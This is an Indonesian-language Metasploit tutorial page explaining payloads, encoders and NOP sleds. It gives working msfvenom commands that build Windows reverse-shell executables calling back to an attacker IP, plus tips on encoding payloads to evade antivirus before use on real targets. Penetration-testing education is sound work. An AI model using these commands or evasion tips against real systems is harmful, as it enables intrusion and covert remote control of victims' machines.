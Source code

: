 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Menjalankan%20Eksploitasi%20dengan%20Metasploit%20Framework.md">Menjalankan Eksploitasi dengan Metasploit Framework</a>
</p>

# Memahami Payload, Encoder, dan NOPs

## A. Apa Itu Payload?

Payload adalah kode yang dijalankan di sistem target setelah berhasil dieksploitasi. Dalam konteks Metasploit, payload bisa bersifat:
- **Reverse Shell** (membuka koneksi dari target ke attacker)
- **Bind Shell** (membuka port di target untuk diakses attacker)
- **Meterpreter** (payload canggih Metasploit dengan banyak fitur)

Contoh Payload Populer:

| Payload |	Keterangan |
|:--:|:--:|
| `windows/meterpreter/reverse_tcp` |	Memberi shell Meterpreter via koneksi TCP balik |
| `linux/x86/meterpreter_reverse_http` | Meterpreter pada Linux via HTTP |
| `cmd/unix/reverse_bash`	| Shell balik |

## B. Apa itu Encoder?

Encoder adalah teknik untuk menyandikan payload agar tidak terdeteksi oleh antivirus atau menghindari karakter terlarang (bad characters).

**Mengapa Perlu Encoder?**

- Menghindari deteksi signature oleh antivirus.
- Menyesuaikan dengan karakterisasi buffer (misal: tidak boleh ada `\x00`).

Contoh Encoder:

| Encoder	| Platform | Deskripsi |
|:--:|:--:|:--:|
| `x86/shikata_ga_nai`	| `x86` | Encoder polymorphic yang sulit dideteksi |
| `cmd/echo` | `Windows` | Menyandikan payload sebagai perintah echo |
| `generic/none` | `All` | Tidak menggunakan encoding |

Contoh Penggunaan Encoder:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.8 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.8`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe`

## C. Apa itu NOPs (No Operation)?

NOP adalah instruksi kosong (tidak melakukan apa-apa) yang digunakan untuk:
- Menstabilkan eksekusi shellcode
- Mengisi buffer sebelum shellcode
- Menghindari crash karena posisi shellcode bergeser

**NOP sled**

NOP sled adalah serangkaian instruksi NOP yang ditempatkan sebelum shellcode agar eksekusi tetap mencapai payload meskipun offset tidak akurat.

```
\x90\x90\x90\x90...[NOP]...\xCC\xE8... [payload]
```

Di Metasploit, NOP generator dapat ditambahkan saat membuat payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -n 16 -f exe > payload.exe
```

Keterangan:
- `-n 16`: Menambahkan 16 byte NOP sled

## D. Relasi Payload, Encoder, dan NOPs

Ketiganya bekerja sama untuk membentuk payload yang:
- Efektif
- Tidak terdeteksi
- Stabil saat dieksekusi di memori target

## Tips Tambahan
- Gunakan encoder `x86/shikata_ga_nai` dengan iterasi `3–5x` untuk menghindari AV.
- Tambahkan NOP jika payload crash saat buffer overflow.
- Uji payload dengan antivirus scanner sebelum digunakan ke target real.

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Membuat%20Payload%20dengan%20MSFvenom.md">Membuat Payload dengan MSFvenom</a>
</p>
